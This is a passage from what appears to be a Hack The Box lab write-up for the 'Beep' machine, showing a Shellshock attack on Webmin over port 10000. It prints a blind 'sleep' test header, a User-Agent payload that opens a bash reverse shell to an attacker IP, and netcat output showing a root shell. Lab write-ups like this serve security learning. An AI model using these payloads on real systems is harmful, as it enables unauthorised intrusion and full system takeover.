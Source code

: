 

## Method 4 - ShellShock on Webmin (Port 10000)

This server is not the typical shell shockable, whereby you get a response, like if you were doing apache shellshock.  So a blind test using sleep command is required.

```html
User-Agent: () { :; };sleep 10
```

This should prove that the server is shockable, so now it is safe to assume we can get a reverse shell.

```html
User-Agent: () { :; };bash -i >& /dev/tcp/10.10.14.24/9001 0>&1
```

```bash
(boolean㉿kalibox)[~/htb/beep-pwnd/ffuf]$ nc -lvnp 9001                                                                          
listening on [any] 9001 ...
connect to [10.10.14.24] from (UNKNOWN) [10.10.10.7] 42915
bash: no job control in this shell
[root@beep webmin]#
```

